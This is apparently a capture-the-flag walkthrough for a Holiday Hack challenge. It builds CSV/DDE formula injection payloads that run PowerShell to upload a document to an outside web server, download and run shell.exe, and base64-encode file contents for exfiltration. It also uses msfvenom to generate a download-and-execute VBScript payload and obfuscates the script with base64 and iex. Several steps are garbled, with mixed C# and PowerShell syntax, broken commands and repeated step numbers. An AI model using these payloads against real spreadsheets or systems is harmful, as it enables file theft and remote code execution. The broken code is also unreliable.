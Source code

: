 # 7. HR Incident Response
> Santa uses an Elf Resources website to look for talented information security professionals. Gain access to the website and fetch the document C:\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with "K." For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge.

1. Build a server to receive the POSTed file.
2. Test a payload to upload a file.
3. Use scripts/csv_injection Docker-compose project.
4. Start the node server: `docker-compose up nodeserver`











=cmd|'/C powershell IEX(WebClient myWebClient = new WebClient(); myWebClient.UploadFile("http://www.nmac.com.ar/uploads/one_upload.php","POST","C:\candidate_evaluation.docx");)'!A0



```
WebClient myWebClient = new WebClient(); myWebClient.UploadFile("http://www.nmac.com.ar/uploads/one_upload.php","POST","C:\candidate_evaluation.docx");
```






5. Use this payload to test:
```
echo "123123" > content.txt
$uri = "http://172.17.0.3:8084/"
$FileName="content.txt"

$Data = get-content $FileName
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Data)
$EncodedData = [Convert]::ToBase64String($Bytes)

$uri = $uri + "?data="+$EncodedData
Invoke-WebRequest -Uri $uri -Method POST
```

6. Node side, you should receive `MQAyADMAMQAyADMA`; and then
```bash
echo "MQAyADMAMQAyADMA" | base64 -d
123123 <<< You've exfiltrated a file!
```







7. Using the example below, write a new payload:
```bash
=cmd|' /C powershell Invoke-WebRequest "http://192.168.0.8:8/shell.exe" -OutFile "$env:Temp\shell.exe"; Start-Process "$env:Temp\shell.exe"'!A1
```

Which will look similar to this:
```bash
Invoke-RestMethod -uri http://www.nmac.com.ar/top_notch_uploader.php -Method Post -Infile /bin/ls

```






7. Get Metasploit and run the Docker MSFVenom:
```bash
sudo chown $(id -u) ~/.msf4;
git clone git@github.com:rapid7/metasploit-framework.git
cd metasploit-framework;
docker-compose run --rm --no-deps -e MSF_UID=$(id -u) -e MSF_GID=$(id -g) ms ./msfvenom --list payload
```

We'll use the `cmd/windows/download_eval_vbs` payload to download a VBScript file which will be executed.
Such VBscript file will send us the file we need.

List the possible formats `docker-compose run --rm --no-deps -e MSF_UID=$(id -u) -e MSF_GID=$(id -g) ms ./msfvenom --list payload`, we'll use `powershell`.

With that info, see which options are required:

```bash
docker-compose run --rm --no-deps -e MSF_UID=$(id -u) -e MSF_GID=$(id -g) ms ./msfvenom --payload cmd/windows/download_eval_vbs --format powershell --list-options
[...]
Basic options:
Name            Current Setting  Required  Description
----            ---------------  --------  -----------
DELETE          false            yes       Delete created .vbs after download
INCLUDECMD      false            yes       Include the cmd /q /c
INCLUDEWSCRIPT  false            yes       Include the wscript command
URL                              yes       The pre-encoded URL to the script

[...]
```

So run the command with options `DELETE=false INCLUDECMD=true URL=http://172.17.0.3:8084/script.ps1` as follows:
```
docker-compose run --rm --no-deps -e MSF_UID=$(id -u) -e MSF_GID=$(id -g) ms ./msfvenom --payload cmd/windows/download_eval_vbs --format powershell DELETE=false INCLUDECMD=true URL=http://172.17.0.3:8084/script.ps1
```



Build a PowerShell payload which will open a remote server


7. Convert the payload to Base64:
```bash
echo '$uri = "http://172.17.0.3:8084/"
$FileName="content.txt"

$Data = get-content $FileName
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Data)
$EncodedData = [Convert]::ToBase64String($Bytes)

$uri = $uri + "?data="+$EncodedData
Invoke-WebRequest -Uri $uri -Method POST' | base64 -e

JHVyaSA9ICJodHRwOi8vMTcyLjE3LjAuMzo4MDg0LyIKJEZpbGVOYW1lPSJjb250ZW50LnR4dCIK
CiREYXRhID0gZ2V0LWNvbnRlbnQgJEZpbGVOYW1lCiRCeXRlcyA9IFtTeXN0ZW0uVGV4dC5FbmNv
ZGluZ106OlVuaWNvZGUuR2V0Qnl0ZXMoJERhdGEpCiRFbmNvZGVkRGF0YSA9IFtDb252ZXJ0XTo6
VG9CYXNlNjRTdHJpbmcoJEJ5dGVzKQoKJHVyaSA9ICR1cmkgKyAiP2RhdGE9IiskRW5jb2RlZERh
dGEKSW52b2tlLVdlYlJlcXVlc3QgLVVyaSAkdXJpIC1NZXRob2QgUE9TVAo=
```

8. Try running it in PowerShell:

```bash

a=IO.StreamReader(
  [Convert]::FromBase64String("JHVyaSA9ICJodHRwOi8vMTcyLjE3LjAuMzo4MDg0LyIKJEZpbGVOYW1lPSJjb250ZW50LnR4dCIKCiREYXRhID0gZ2V0LWNvbnRlbnQgJEZpbGVOYW1lCiRCeXRlcyA9IFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OlVuaWNvZGUuR2V0Qnl0ZXMoJERhdGEpCiRFbmNvZGVkRGF0YSA9IFtDb252ZXJ0XTo6VG9CYXNlNjRTdHJpbmcoJEJ5dGVzKQoKJHVyaSA9ICR1cmkgKyAiP2RhdGE9IiskRW5jb2RlZERhdGEKSW52b2tlLVdlYlJlcXVlc3QgLVVyaSAkdXJpIC1NZXRob2QgUE9TVAo="),
  [Text.Encoding]::ASCII
)

pwsh -c '[Convert]::FromBase64String("JHVyaSA9ICJodHRwOi8vMTcyLjE3LjAuMzo4MDg0LyIKJEZpbGVOYW1lPSJjb250ZW50LnR4dCIKCiREYXRhID0gZ2V0LWNvbnRlbnQgJEZpbGVOYW1lCiRCeXRlcyA9IFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OlVuaWNvZGUuR2V0Qnl0ZXMoJERhdGEpCiRFbmNvZGVkRGF0YSA9IFtDb252ZXJ0XTo6VG9CYXNlNjRTdHJpbmcoJEJ5dGVzKQoKJHVyaSA9ICR1cmkgKyAiP2RhdGE9IiskRW5jb2RlZERhdGEKSW52b2tlLVdlYlJlcXVlc3QgLVVyaSAkdXJpIC1NZXRob2QgUE9TVAo=")'






7. Convert the payload to something that can be injected:

```
pwsh -c '$uri = \"http://172.17.0.3:8084/\"
$FileName=\"content.txt\"
$Data = get-content $FileName
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Data)
$EncodedData = [Convert]::ToBase64String($Bytes)
$uri = $uri + \"?data=\"+$EncodedData
Invoke-WebRequest -Uri $uri -Method POST'
```

All the above needs to be ran by the shell. Move the payload to a variable (with proper escaping) and then invoke iex() to execute it:

```
pwsh -c "$A=\"$uri = 'http://172.17.0.3:8084/'
$FileName=\"content.txt\"
$Data = get-content $FileName
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Data)
$EncodedData = [Convert]::ToBase64String($Bytes)
$uri = $uri + \"?data=\"+$EncodedData
Invoke-WebRequest -Uri $uri -Method POST
iex($A)\""
```
